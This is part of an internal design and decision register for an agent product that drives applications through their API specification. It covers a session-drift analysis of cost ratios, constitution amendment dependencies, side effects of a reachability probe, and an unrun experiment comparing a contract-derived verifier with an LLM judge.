> **Which comparisons straddle a session, established from run identity rather than from narrative.** Each family's ratio was traced to the runs its two arms came from.
>
> | family | published ratio | Arm A from | Arm B from | exposure |
> |---|---|---|---|---|
> | lookup `R1`+`R2`, 27 tasks | **5.06×** per attempted (5.25× per solved) | `20260802T160705-recalibration` (`35c8ef293cf0611c`) | `20260802T173614-baseline-lookup-R1R2` (`f9abf1d35e94e32e`) | **cross-session, cross-fingerprint** — already recorded in U-42 |
> | lookup `R1`+`R2`, 27 tasks | **4.366×** per solved | `20260803T064550-paired-lookup-R1R2-A3budgets` | the same run | **none — one run, one fingerprint** |
> | join `R4.001`–`R4.010`, 10 tasks | **2.20×** per solved | `20260802T163319-bias-probe`, with `20260802T165903-ambiguity-recheck` for the three re-measured tasks | **the same two runs, task for task** | **none for the arm contrast** — every task's A-against-B comparison sits inside one run |
> | per-record `R4.011`–`R4.014`, 2 tasks | **9.3×** | `20260802T173226-reprobe-perrecord-v2` (`f9abf1d35e94e32e`) | `20260802T164929-bias-probe-perrecord` (`3c10a64b0ffe7749`) | **cross-session, cross-fingerprint — and this had not been recorded anywhere** |
>
> **How large the drift is against what is claimed.** The between-session component is not a small perturbation: on tasks that are byte-identical across six within-session attempts it moved cost by **2.55×** and **1.88×** between sessions, and the tool arm is not exempt (`R2.015`, 4 turns and 17,871 tokens in one session against 3 turns and 13,400–13,541 in all five repeats thirty-five minutes later). Pooled over a whole 27-task arm at an unchanged budget it largely cancels, to **5.2%**. Finding 014's published 2× floors for a 27-task pooled ratio are **6.98%** paired and **12.58%** unpaired, and the finding states that both omit the between-session component and are therefore lower bounds. **So drift is devastating to a small-n ratio and nearly harmless to a large-n pooled one**, and which of those a figure is decides whether it survives.
>
> **The derivation, in four steps.** ① **Two of the four figures carry no cross-session exposure at all**, and that is a structural fact about where the rows came from, not a statistical argument: the paired lookup **4.366×** and the join **2.20×** each compare arms measured in the same run at the same fingerprint. Drift cannot reach them. ② **The cross-session lookup figure has a within-session replacement on the same 27 tasks**, and the whole movement between **5.059×** and **4.366×** is a factor of **0.8630** that findings 013 and 014 independently refuse to report as a difference. The drift-immune lookup number is therefore 4.366×, and it is not materially different from the number OD-07 quotes. ③ **The 9.3× is the one figure with real exposure and no within-session replacement.** It is n = 2, post-hoc-selected as *the tasks a tool reaches*, and its two arms come from different runs at **different fingerprints** — a pairing the harness's own rule forbids, forty-three minutes apart, which is the same separation as finding 014's cleanest between-session instance. Against a per-task between-session swing measured at up to 2.55× on a *deterministic* task, a two-task ratio pins no magnitude. ④ **Nothing here reverses a direction.** No family's advantage is erased, and the tool arm is cheaper wherever it succeeds on every basis examined.
>
> **The restated range, and what changed about each endpoint.** **2.20× to 4.366× per solved task, measured within a single session** — the join family at the bottom and the lookup family at the top. The 9.3× is **demoted from a range endpoint to a single cross-session, cross-fingerprint, n = 2 observation** that establishes the *direction* on aggregable tasks and no magnitude; quote it as roughly an order of magnitude on two tasks, with `R4.014`'s move from budget-exhausted to answered as the thing it actually shows, and never as a rate. **Classify the change precisely, because conflating these is the recurring failure in this record.** The lower bound 2.20× is **unchanged**. The upper bound is **narrowed** — 9.3× is not *wrong*, and no recomputation moved it; what moved is what may be inferred from it. The lookup endpoint is **re-based, not corrected** — 5.06× stands as published and 4.366× is the figure with no drift exposure, and finding 014 forbids calling the difference between them a difference. Nothing here is **superseded** and nothing is **deferred**.
>
> **What is not the owner's to worry about, and what is.** The pivot's premise is untouched: the capability half was already abandoned, and the pre-registered *no 2× cost win → stop* limb is cleared by the lookup family at 4.366× on a within-session paired measurement, which is a better basis than the 5.06× the limb was originally adjudicated on. **What the owner should decide is whether a product scope resting on a 2.20×–4.366× efficiency case is the same decision as one resting on 2.2×–9.3×.** That is a judgement about how much of v2's value was carried by the order-of-magnitude end, and it is not a judgement this document may make. **Two things would settle the residue and neither is expensive**: running one arm against itself in two sessions separated in time, which is what §9.3 prescribed and what has never been done (U-46); and re-running the two aggregable per-record tasks paired in one run, which would give the 9.3× the same footing the other two figures now have.
>
> **Basis.** Derived from the committed `results.jsonl` rows under [`harness/ceiling-test/results/`](../specs/001-discovery-validation/harness/ceiling-test/results/) — run identity, fingerprint and per-attempt cost — and cross-checked against [finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md) and [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md). Every ratio quoted above reproduces from those rows to the digits shown. This range has been wrong twice before on recomputation from unchanged artifacts, which is why it was derived rather than repeated.

**A constitution amendment is required to give D-17 force, and it is not ours to make.** [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) proposes one sentence for Principle I's enforcement clause — *a derived contract MUST be validated against an independent description of the interface where one exists (OpenAPI, a schema file, a client SDK, a recorded request), and MUST be marked provisional where none does.* D-17 is the architectural half of that; the normative half belongs in `.specify/memory/constitution.md`, which this document does not own. Recorded here so the dependency is visible rather than assumed. **The amendment is drafted and deferred rather than merely proposed** — `plan.md` OD-03 holds the exact sentence, deferred by the owner until E7 returns on the reasoning that if the ceiling test retires the thesis the amendment is moot. So D-17 is decided but not yet enforceable, which is the mildest form of conditional and the easiest to close. **Updated 2026-08-02 — the condition is discharged and the amendment is now actionable.** E7 has returned (OD-07) and it did **not** retire the thesis: the capability half is unsupported, the cost half replicated in every family, and the product proceeds on the revised claim (D-19). So the "moot" limb does not fire, the deferral has nothing left to wait on, and applying OD-03's sentence as a MINOR bump to 1.1.0 is an owner action carried into the production specification rather than a pending experiment. ~~**D-17 remains decided-but-unenforceable until that happens**, and it is now the *only* thing standing between the four requirements and their having force.~~ **✅ DISCHARGED 2026-08-02 — the amendment is applied and D-17 is enforceable.** `.specify/memory/constitution.md` is at **v1.1.0**, Principle I's Enforcement paragraph now carries OD-03's sentence verbatim, and `plan.md` OD-03 is re-recorded as applied rather than deferred. **This dependency note is marked discharged rather than deleted, because the record of what was owed is the useful part**: the amendment was a MINOR bump on the reasoning that it *strengthens* an existing principle rather than adding one, the owner approval a NON-NEGOTIABLE principle requires was obtained, and the migration plan is empty because nothing was ever emitted under 1.0.0. **What changes in practice is the review gate, not the architecture.** D-17's four requirements were already the design; they are now merge-blocking, so a derived artifact that carries no independent validation and no provisional marking is a review defect rather than a shortfall to be argued about — which is exactly the state U-33 has been asking for, since the failure taxonomy is the component with no authority to check against and therefore the one that must always be emitted marked provisional. **One thing this discharge deliberately does not do: it does not touch item 2 below.** That is a separate dependency, on Principle IV rather than Principle I, and it is neither folded into this one nor closed by it.

**D-18 adds two further constitution dependencies, and only one of them folds into ~~that deferral~~ the Principle I amendment.** ~~Neither is acted on here.~~ **Updated 2026-08-02: the first is now discharged by an owner decision and the second is untouched and still open.** Neither required an edit to `.specify/memory/constitution.md`, which remains outside this document's ownership. **Re-checked 2026-08-02 after the amendment landed: the count still reads one discharged and one open.** Applying OD-03 discharged the Principle I dependency above and it discharged **neither** of the two below — item 1 was already closed by OD-06 on layering grounds, and item 2 is a Principle IV question about an unclassified probe reaching handlers, which a Principle I amendment about contract validation cannot reach.

1. **D-17's fourth requirement is inside OD-03's drafted sentence, provided "provenance" is read to include deployment identity — and it should be, because that reading costs nothing now and a second amendment later.** Connected rather than duplicated: ~~when OD-03 is applied,~~ **OD-03 is applied as of 2026-08-02 (v1.1.0), so** deployment identity **is** one of the provenance fields the sentence requires, not a separate clause — and the reading this item recommended is the one that took effect, at the cost of nothing and saving a second amendment exactly as predicted. What does *not* fold in is a harder conflict with the Additional Constraints section, which requires the knowledge layer to be **"rebuildable from the codebase alone."** A reachability-filtered catalogue is not: its filter's input is a running deployment, and the same codebase yields 22 or 67 served operations depending on which one answered. That is a real tension with a stated constraint rather than an omission from it, and ~~it wants an owner decision on whether reachability is part of the knowledge layer at all or a stage above it. Cheap to settle, and worth settling before anything is emitted.~~ **✅ DISCHARGED 2026-08-02 by `plan.md` OD-06 — the second of the two readings, and the constraint survives unamended.** Reachability is **a stage above** the knowledge layer, not part of it: analysis emits a source-derived candidate set, and a separate artifact annotates it with what a *named deployment* serves. The premise of the tension above is that one artifact must satisfy both requirements; the decision supplies two, so the Additional Constraints sentence holds of the source-derived artifact exactly as written and **no amendment is needed or wanted here**. Two consequences travel with the discharge. **D-17's fourth requirement lands on the reachability annotation** rather than on the code graph — deployment identity attaches to the artifact that has a deployment — which sharpens rather than weakens the paragraph above it, since a field naming a deployment inside an artifact defined as deployment-free was always the awkward part of that reading. **And this discharge is a layering decision only: it does not touch item 2 below**, which concerns Principle IV, remains open, and is not folded into anything. Propagated at §1.2, §2.1, §2.2, §2.4, §2.11, §2.12 and in the D-18 row above.
2. **Separate, and touching a NON-NEGOTIABLE principle, so it cannot be folded anywhere.** Principle IV requires every emitted tool to be classified read-only, reversible-write, or irreversible/destructive, with the tier enforced by an interception point that can block. D-18 part 4 puts a reachability probe in front of every tool, and that probe **was observed invoking handlers it was designed not to invoke** — on this target harmlessly, by construction of the handlers rather than of the probe. An unclassified mechanism that can reach an arbitrary sibling handler is a capability crossing a tier boundary without a structural gate, which the review gates forbid. The resolution is probably a scope rule on the probe rather than an amendment, but the choice is the owner's and it should be made before the precondition ships rather than after. See U-37. **Amended 2026-08-02 by E15, and the change is that this conflict is now *reduced and bounded* rather than open-ended — which makes it harder to defer, not easier** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §5). Handler invocation, the part that made this alarming, is **eliminable and was eliminated**: probing with a verb no route in the application declares gives **0 handler invocations across all seven targets** against 13 for the design this item was written about, and the status code carries its own proof — under such a probe a router can only answer 404 or 405, so **any other status is evidence that application code ran.** What does not go away is **middleware, which runs before routing regardless of method** and is therefore on the request path of a check D-18 puts in front of every emitted tool. So the strongest supportable claim is *provably free of handler invocation, subject to a per-framework check that the router separates path matching from method matching, with middleware as an irreducible residue* — **strictly stronger than "probably side-effect-free" and strictly weaker than side-effect-free, and the precondition therefore cannot be classified read-only on the strength of probe design alone.** It can only be classified read-only **for a target whose middleware stack has been inspected**, and that is a *per-target* determination, which is a different kind of obligation from anything Principle IV currently expresses: the principle assumes a tier is a property of a tool, and this makes it a property of a tool *and a deployment*. **Two riders the owner needs with the decision.** The middleware claim is **argued, not observed** — none of the seven targets runs middleware that writes, so the residue's size is reasoned about and unmeasured. And on Django the router-separation check above **does not hold at all**: its URL resolver carries no method information, so the safety property is currently supplied by the static extractor failing closed rather than by the probe, and an unrelated recall improvement in the extractor would remove it silently. That coupling is **U-40**, and it means the per-framework check this item now depends on has a known negative case.

   **Updated 2026-08-02 by E15 — the conflict is reduced and it is not resolved, and the residue is now named.** Handler invocation was the eliminable half and it has been eliminated: probing with a verb no route in the application declares yields **0 handler invocations across all seven targets, against 13** for the rule E14 used. **Middleware execution is not eliminable.** Middleware runs before routing for every request regardless of method, and audit logging, rate-limit counters and session creation are ordinary middleware behaviours — so an unclassified side effect remains on the request path of a check D-18 puts in front of **every** emitted tool. Two consequences for the owner, and the second is the harder one. **The precondition cannot ship classified read-only on the strength of probe design alone**; it can be classified read-only only for a target whose middleware stack has been inspected, which is a *per-target determination* and therefore a different kind of obligation from the one Principle IV currently expresses. **And the safety of the probe is not a property of the probe on every framework** — on Django, whose resolver carries no method information, an undecorated view executes on a fabricated-verb probe and was safe in the scored run only because the static extractor failed closed and never proposed it (U-40). So the scope rule this note anticipated has to cover a component the probe does not own. **This does not fold into OD-03**, which is a Principle I amendment about contract validation; it remains the second, separate dependency, now with a named residue rather than an open question. Still not acted on here — `.specify/memory/constitution.md` is not this document's to edit.

   **A third Principle IV dependency is added 2026-08-02 by `plan.md` OD-09, and unlike items 1 and 2 it is answered here rather than referred upward** (D-22). Items 1 and 2 both ask whether one *specific mechanism* — the reachability probe — can be classified. OD-09 asks something larger: with synthesis deferred, **no** emitted tool carries a tier, and Principle IV binds every emitted tool. The resolution taken is that Principle IV binds and is satisfiable, by resolving the tier **per call** at the interception point rather than per tool at generation time, with the served-operation specification supplying the HTTP verb at no extra cost (D-16 restated, D-22). **No constitution amendment is requested and none is needed** — the principle's text says every emitted tool is classified and the tier is enforced by something that can block; it does not say the classification must be static, and per-call resolution satisfies both clauses. **Two things are recorded as owed rather than resolved.** The principle assumes a tier is a property of a tool, and both item 2 and D-22 now make it a property of a tool *and* a request — that is a strain on the text even though it is not a violation of it, and if a future amendment is opened for any reason it should say so explicitly. And **there is no measured precision for the verb→tier mapping**, so the review gate is carrying weight that a validated classifier was meant to carry (D-15, U-43).

### 3.2 Pending experiment

| # | Decision | Options | Resolved by | Decision rule |
|---|---|---|---|---|
| P-01 | **Agent class for v1** — ⚠️ **PARTLY OVERTAKEN 2026-08-02 by `plan.md` OD-09, and the row's own third branch is close to what happened** | Class A (on the codebase) / Class B (through the app) / both with hard isolation | ~~**[11](./11-validation-plan.md) Phase 3, arm A6 vs. A2/A7**, with Phase 0's A8-vs-A0 as a precondition~~ — **Phase 3 never ran; the precondition ran against A0b rather than A0 (see P-02).** | B ≥ A + 20 pp on operator tasks → v1 is Class B. A ≥ B → v1 is a coding agent and the synthesis pipeline is cut. Split → two products; pick one and say which. **Read against OD-09: the synthesis pipeline *is* cut, which is this row's second branch, but it was cut by a pre-registered pivot criterion rather than by this comparison — the comparison was never made. And v1 is not thereby a coding agent: it is an agent holding general tools pointed at a running application through its specification, which is Class B's target with Class A's toolset. C-15 is exactly the observation that this is not a stable position, and OD-09 makes it the default rather than the escape hatch.** |
| P-02 | ~~**Does the whole thesis hold**~~ — ⚠️ **ANSWERED ON THE COST LIMB ONLY, 2026-08-02, and the arm this row names was never run** | Build / kill | ~~**Phase 0: A8 vs. A0**~~ **Not run. E7 ran A8 against A0b** — a baseline with shell, `curl` and the target's OpenAPI schema — never against A0, which has neither ([finding 005](../specs/001-discovery-validation/findings/005-ceiling-test-harness.md) records the substitution). So this row's comparison has no measurement behind it and P-03's does. | ~~Stop if A8 does not beat A0 by 15 points *or* halve tokens-per-solved-task.~~ **Read against the arm that did run, the disjunction resolves: the first limb fails and the second clears with room.** A8 does not beat A0b by 15 points in any family — it ties two and loses one — and it more than halves cost per solved task in all three, at 5.06×, ~~2.8×~~ **2.20×** and 9.3× ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md)). The rule is an *or*, so it is not a stop, and OD-07 does not stop: it revises the claim to **cheaper and safer, not more capable** (D-19). **What cannot be recovered is the counterfactual this row was for** — with A0 unmeasured, nothing here distinguishes *curated tools do not help* from *access alone already captures most of what they give*, which was the exact hazard finding 005 flagged when it substituted the baseline. Discovery is closed and the arm will not be run. |
| P-03 | ~~**Is synthesis the product, or is access?**~~ — ✅ **RESOLVED 2026-08-02 toward the pivot on capability, and held open only by cost** | Full pipeline / runtime + verifier only | **Phase 0: A0b vs. A8** — run, as three per-family probes rather than one battery (OD-05) | **The rule's antecedent is satisfied: A0b ≈ A8.** Shell plus `curl` plus the OpenAPI schema **matched** hand-written ideal tools on lookups (26/27 against 27/27, a tie on one attempt each), matched them on joins (10/10 against 9/10), and **beat** them on per-record breadth (4/4 against 2/4) ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md)). TL;DR bullet 8 called this "the single most important number in this program," and it came back on the side that shrinks the product. **The pivot is not taken wholesale, on one measured ground and one recorded gap.** The ground: cost separates the arms by ~~2.8–9.3×~~ ~~2.2–9.3×~~ **2.20×–4.366× where the comparison is within-session** in every family and replicated in all of them, so the tool surface earns its place on economics rather than on capability *(narrowed 2026-08-03; the direction is unaffected and no family's advantage is erased — §3.1 OWNER FLAG, U-46)*. The gap: the strongest observation E7 produced is a *correctness* failure the shell arm hit and a tool cannot — an API that fails open — and it is **n = 1 with replication declined** (U-41). **So the honest statement of this resolution is that access is most of the capability, synthesis is most of the efficiency, and whether synthesis is also the safety is unmeasured.** A residual worth carrying into promotion selection: the losing surface was 20 tools that return *records*, which is what a naive one-tool-per-endpoint pass emits, and the one tool that returned an *answer* changed a task by 35× (D-19). |
| P-04 | **Is promotion selection real?** — **DEFERRED TO v2 2026-08-02 with synthesis (`plan.md` OD-09), NEVER MEASURED** | Ship selection / ship all tools | ~~**Phase 1: A1 vs. A2**~~ — **not run, and not runnable: both arms require a generator and no generator was built. Discovery is closed, so this defers unanswered rather than answered.** | Drop promotion selection if the selected set is not better than the full set — **but check tool-recall first**, or you will misattribute a coverage bug to a selection failure. **The one adjacent measurement constrains *how* v2 selects rather than *whether* it should: a 20-tool surface returning *records* lost the per-record family to a `jq` pipeline, while one tool returning an *answer* moved a task by 35× (D-19). Read that as evidence that the selection axis is answer-vs-record, not count.** |
| P-05 | **Multi-agent at execution time** — **DEFERRED TO v2 2026-08-02 with decomposition-into-agents (`plan.md` OD-09), NEVER MEASURED** | Multi-agent / budget-matched single agent | ~~**Phase 3: A5 vs. best of A3/A4**~~ — **Phase 3 never ran.** | Do not build execution-time multi-agent if a budget-matched single agent matches the best multi-agent arm. This is the control almost nobody runs. **v1 ships a single agent by scope decision, which is the same shape as this rule's conservative branch but is emphatically *not* evidence for it — the control still has not been run, and v2 must run it before spending on topology.** |
| P-06 | **Layer vs. domain decomposition** — **DEFERRED TO v2 2026-08-02 with boundary inference (`plan.md` OD-09), NEVER MEASURED** | A3 / A4 | ~~**Phase 3: A3 vs. A4**~~ — **Phase 3 never ran, so D-11's axis is still an argument rather than a finding.** | Expect A4 > A3. If A3 wins, [07](./07-product-vision.md) §3.1 is wrong and the boundary-inference investment needs re-justifying. **The investment is now deferred anyway, which removes the urgency and none of the risk: v2 would be re-justifying an unmeasured premise.** |
| P-07 | **In-loop verifiers** — ⚠️ **NOT deferred. PROMOTED 2026-08-02 by `plan.md` OD-09, and it is the most consequential unresolved row in this table** | A7 wrapping vs. CI-only | ~~**Phase 3: A7 vs. A2**~~ — **Phase 3 never ran, and under OD-09 the verifier is *half the product* rather than one arm among eight. So v1's central differentiator has no experiment behind its in-loop placement.** Note what *is* measured: D-09 and [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) measure whether contracts can be *derived* (literal 0.8696, validated 0.7681). Nothing measures whether wrapping the loop in them helps. | Ship in-loop verification only if it beats A2 on task success or on tokens-per-solved-task. **This rule cannot be applied as written, because A2 is a synthesized-tool arm that v1 does not contain. Restate it against the v1 arms before building: the comparison is a spec-aware agent *with* contract verification against the same agent *without* it, which is a cheap experiment nobody has scheduled. Doing so should be near the top of the post-pivot plan — see §6.1.** **⛔ PROMOTED AGAIN 2026-08-03 by `plan.md` OD-11: this row is now a *gate on the production specification*, which is blocked until it returns.** The restated comparison gains a third arm — a general-purpose LLM judge — because the question that decides whether v1 has a product is not *does verification help* but *does a contract-derived verifier catch anything a judge does not* (P-09, and [11](./11-validation-plan.md) §8's Phase 2 row, whose pre-registered gate is inherited verbatim rather than re-derived). A harness is being built for it. **~~which is a cheap experiment nobody has scheduled~~ — scheduled.** **⛔ UPDATED AGAIN 2026-08-03 by `plan.md` OD-14 — the harness was built, dry-run at $0.00, and *not executed*; the gate is retired and this row's central quantity is declared UNMEASURED, deferred to production traffic.** The corpus cannot answer it: 2 surviving discriminative traces, three pre-registered riders capping the verdict independently, four of seven families lost to the eligibility rule. **What this row may now claim and what it may not:** the verifier's *mechanism* is demonstrated — 9 of 9 numeric value errors including 3 sub-1% near-misses on the eligible population, and separately ~~zero false alarms on **220 clean positives**~~ **zero false alarms on the 96 clean positives whose run manifest declares the battery under test, 93 of them compared** **(the offline full-corpus sweep restricted to attested records; the pooled 220 and the 60-positive judge-scored sample are two further populations, and the detection and false-alarm counts here are over different populations and are not one measurement — see the labelling table under this table)**, via a precision ladder containing no numeric constant — while its *margin over a judge* is unmeasured and no judge call was ever billed. **This row is therefore still the most consequential unresolved row in this table; what changed is that the resolution now happens in production rather than before the spec.** **✅ CLOSED 2026-08-03 as UNMEASURED — which is not the same state as answered, and this row is the place the corpus is most likely to blur the two** ([finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md)). **The distinction, stated once so it can be cited.** *Answered* would mean the experiment ran and the quantity came back — above the gate or below it. *UNMEASURED* means **no judge verdict exists anywhere and none was ever billed**, so the quantity the gate reads was never computed at all. E8 is a null on **power**, not on H2: the corpus cannot tell, which is not the same as the answer being no. A future measurement is unprejudiced by this closure in either direction. **Three independent blockers, each sufficient on its own, and all three computable before the first call — which is why not running it was correct rather than convenient.** ① **Power**: on the strict re-scope's 7 negatives, one detected trace is worth 14.29 pp raw and 10.97 pp discounted against a 10 pp gate, so **the gate's boundary sits inside a single trace** and every attainable confidence interval is wider than 28 pp. ② **Structure**: three pre-registered riders cap the verdict before any call — §6.9 holds it at "underpowered — advisory" until the false-success base reaches n ≥ 30 across ≥ 3 families and the eligible base is 10 across 2; S8 forces "not measurable" on any judge instability above 5 pp, and one verdict flip anywhere is 6.67 pp; §6.5 forces "provisional" if the verdict moves when the near-misses are removed, and all three near-misses are the same submission. **The decision table's headline row was therefore unreachable: the experiment could not have earned it even if it had run and won.** ③ **Coverage**: the only sound eligibility rule costs **four of seven task families**, and the four lost are exactly the refusal-shaped ones, so the protocol-violation negative class is empty and E8 could say nothing about it at any spend. **And one blocker that no amount of money or corpus repair would have touched:** §4.1's human adjudication of the ground truth **was never performed at any n** — the 40-trace blind pass exists, is careful, and states in its own §0 that it was performed by a model rather than a human. **No E8 result could have been written up as resting on validated ground truth.** **The likeliest outcome was a positive one that nobody could cite**, because the trace most likely to produce a detection is a recomputable arithmetic error a postcondition verifier catches with certainty — a nominal gate pass pre-committed to *provisional* and *advisory* by the protocol that produced it. **What this closure does not do:** it does not retire H2, it does not license describing the verifier as validated, measured or earned, and it does not license reading the detection rate `D_c2` as a margin — `D_c2` counts failures the verifier finds, the gate reads **MD**, marginal detection restricted to traces *the judge passed*, and with no judge verdict **nothing clears the gate and nothing fails it**. |
| P-08 | **v1 language/framework scope** — ⚠️ **INVERTED 2026-08-02 by `plan.md` OD-09, and this is the row where the pivot is most awkward** | One framework deep / one language several frameworks / any repo with an OpenAPI spec | **Phase 4 generalization**, informed by Phase 0 A0b | ~~"Any repo with a spec" is precisely the commoditized slice.~~ **That sentence was a warning against the third option; under OD-09 the third option is approximately what v1 *is* — a spec-aware runtime is, by construction, aimed at repos that publish a specification. The warning is not thereby refuted, it is *inherited*, and this is the sharpest form of the commoditization risk in the corpus: v1's differentiation must come from the verifier and the drift detector rather than from the surface it drives (§1.2, §7.2). Two mitigations are already in the corpus and neither was written for this purpose. [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) shows the schema-free probe recovers path-level reachability at 1.0000/1.0000, so "repos with a spec" is not the same set as "repos that publish one" — the runtime can manufacture the spec it needs. And contract derivation is strictly more informative than a published schema in measured cases (§2.4, `POST /run_sse`).** Default to FastAPI-first on contract density, not popularity, unless Phase 4 shows the analyzer generalizes cheaply. |
| P-09 | **Does the judge caveat transfer to code/API tasks?** — ~~**SCHEDULED 2026-08-03 by `plan.md` OD-11, as the control arm of the experiment that gates the production spec**~~ **DE-SCHEDULED the same day by OD-14 and deferred to production. Still open, and now with a measured local null result attached: the label-shuffle control centres correctly and the judge arm's AUROC 95% CI contains 0.5, so the inherited caveat is *not replicated locally* in either direction** | Trust some automated grading / none | ~~**Phase 2 judge audit** — **now running before the spec rather than after it (OD-11, P-07)**~~ **Phase 2 never ran and no judge call was ever billed. Deferred to production instrumentation (OD-14), gate unchanged** | The 0.18–0.30 AUROC figure is inherited from other domains. Do not treat it as established here until Phase 2 tests it — and do not put a judge in the primary path either way. **Read this row and P-07 together: the judge is the *control* for the verifier's marginal detection, so one measurement answers both, and the §8 branch *judge AUROC < 0.5 → constitutional ban on LLM judges in the success path* fires on this row's number regardless of what the verifier scores.** |
| P-10 | **Emit code artifacts or interpret declarative config** | ~~Files in the customer repo / hosted interpreter / hybrid~~ — **narrowed 2026-08-02 by `plan.md` OD-08 (D-20): files in the customer repo / hybrid. The hosted-interpreter option is deferred with the hosted tier, not eliminated.** | Not yet scheduled — **fold into the Phase 1 deliverable** | Lean: code for the tool manifest, contracts, and tests (the things humans must review); declarative for the loop/runtime, which nobody wants to own. **Unchanged by OD-08, and OD-08 adds one constraint to whichever half is declarative: D-20 discipline 3 forbids a customer-specific path, hostname, or credential in an emitted artifact, so the declarative half must be environment-parameterised even though exactly one environment exists.** That is the discipline that keeps the hosted interpreter reachable, and it is the one a single-tenant deployment makes it tempting to skip. |

**Labelling note added 2026-08-03, on P-07's false-alarm figure, because ~~two~~ three different populations have been quoted interchangeably across this corpus.** *"Zero false alarms across 220 clean positives"*, *"zero false alarms on 96 attested positives"* and *`FPR_c2 = 0/60`* are **not the same measurement**. All are zero, so nothing anyone has written is *wrong* — but the denominators differ, ~~by roughly 3.7×~~ **220 against 60** *(corrected 2026-08-03: the multiplier was derived here and quoted in no finding, which the `numeric-provenance` rule was right to flag; both denominators are sourced, so they are stated directly)*, and no citation anywhere said which was which, so a reader combining them double-counts one result or reads the stronger one as the weaker. **The attested row and the `Compared` column were added 2026-08-03 from [finding 018](../specs/001-discovery-validation/findings/018-verifier-false-alarm-attested-denominator.md).**

| Figure | Compared | Population | What produced it |
|---|---|---|---|
| **0 of 96** — *added 2026-08-03; this is the mechanism denominator* | 93 | The clean oracle-positives whose **own run manifest declares the battery under test**, so no cross-battery join happens and nothing rests on the value-comparison test | The same offline sweep, stratified by how each record's join is attested. The only figure here with no provenance caveat, bought with a wider interval and with 12 rather than 34 compared `R4` records |
| **0 of 220** | 175 | Every clean oracle-positive in the frozen corpus — all 226 oracle-positives less the 6 stale ones the packaging defect produced | An **offline full-corpus sweep**: the postcondition arm run directly over all 246 frozen records against the committed offline fixture. Model-free, no sampling, and not part of any run's reported metrics |
| **0 of 60** | — | The seeded stratified sample of positives that a run scores | The harness's **reported `FPR_c` metric**, computed on the 60 positives `select.select` draws from the pinned seed — the sample sized for the judge, whose calls are what cost money |

**Quote the ~~220~~ 96 for the mechanism claim, the 220 beside it for coverage, and the 60 for anything compared against a judge-scored metric, and never merge them.** *(Restated 2026-08-03: the 220 was the mechanism denominator until finding 018 re-ran the census restricted to attested records and returned the same zero. The narrower figure is the better-supported one, not the weaker one, and the pooled figure is not withdrawn.)* The distinction is load-bearing rather than pedantic, and [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md) contains the demonstration: the **schema** arm's `FPR_c1` also read a perfect **0 of 60** in every dry run — while that arm was raising two false alarms on the full corpus that the sample simply had not drawn. **A sample can report a perfect false-alarm rate for a component that is fabricating**, which is C-19, and it is the reason the offline population is the one worth quoting for a claim about a mechanism.

**The `Compared` column is not decoration, and it names a defect distinct from C-19's.** A false-alarm denominator that counts records the arm *declined* is inflated by cases that could never have contributed to its numerator: 45 of the 220 are `unverifiable`, 40 of them the entire unattested class, so **`0 of 220` is a true statement and is not a rate** — the pooled rate is 0 of 175 compared. C-19 is about a denominator that *excludes* the failure; this is about one that *pads* itself with cases the instrument could not fire on. Both make a clean rate read as stronger evidence than it is, and neither is visible in the figure itself. **A second rule falls out of the same re-scoring: a detection numerator and a false-alarm denominator drawn from different populations may not be written as one measurement.** P-07's sentence paired detection over the eligible negatives with false alarms over the clean positives; on the attested population both sides share one denominator and read **2 of 2 false successes flagged, 0 false alarms on 96 positives**, the detection count falling from 10 to 2 because the false successes concentrate in the records the drift touched.

### 3.3 Open

| # | Question | Why it is open | First step |
|---|---|---|---|
| O-01 | ~~**Deployment model** — self-hosted, hosted, or local-analysis / hosted-runtime hybrid~~ — ✅ **RESOLVED 2026-08-02 by `plan.md` OD-08. Folded into D-20.** | **Self-hosted ships; fully hosted stays reachable without a rewrite.** The row's own instruction was followed — it said the question cannot be resolved by experiment and must be forced before the spec, and it was forced by an owner decision rather than answered by a measurement. **What the row got right and what it understated.** Right: multi-tenancy does fall out of it, and `codegraph`'s locality does make the hybrid genuinely available — which is why the decision is *self-hosted first* rather than *self-hosted only*. Understated: the row framed the consequences as commercial (telemetry, enterprise deals) when the deciding arguments turned out to be technical — reachability is needed twice (E14/E15 at analysis time, the runtime again at execution time), and OD-07's general fallback path means shell access, which is a categorically different risk inside the customer's trust boundary than inside ours. **Retained here rather than deleted because the entry names the three things that fall out, and all three moved.** | **Done — no further step.** The decision's *binding* half is not the choice but the four disciplines that keep hosted reachable; those live in **D-20** and are enforceable from the first commit rather than at a future migration. **Five register entries narrow rather than close as a consequence — O-02, O-03, O-05, P-10 and U-05, the last of which leaves the blocking set without being resolved — and one, O-04, gets harder rather than easier.** Each is annotated in place, and none is struck. **Extended 2026-08-03: U-05's departure was a flag on 2026-08-02 and is an executed reclassification on 2026-08-03** — hosted-tier-blocking, annotated on `plan.md` OD-08, still in §5.1, still unmeasured. The other four are unreached by that act and stay exactly as this row records them. |
| O-02 | **Whether customers will federate identity to us** | Anthropic WIF requires the customer to register *our* OIDC issuer — effectively trusting our token minting. This is a sales question documentation cannot answer. **Narrowed, not closed, 2026-08-02 by `plan.md` OD-08 (D-20): the question is now a hosted-tier question only.** A self-hosted deployment federates to the customer's own issuer for the customer's own platform identity, which asks nothing of us and requires no trust in our token minting — so the question stops gating v1 and starts gating the hosted tier. **Recorded as narrowed rather than resolved because the answer is still unknown and still commercial**, and because it is the same question U-05 turns on. **Extended 2026-08-03 — this row is unchanged and its twin moved.** U-05 was **reclassified as hosted-tier-blocking** by owner decision, annotated on `plan.md` **OD-08**; since the two entries turn on the same question, the two now carry the same gate, and this row was already recorded as gating the hosted tier rather than v1. **Nothing here is answered by that** — no design partner was asked and the pattern is still undocumented. | ~~Ask three design partners.~~ **Amended 2026-08-02: still ask, and no longer before v1.** Ask when the hosted tier is being scoped, and until then treat long-lived customer-supplied keys as the v1 posture (D-04) rather than as a stopgap awaiting this answer. |
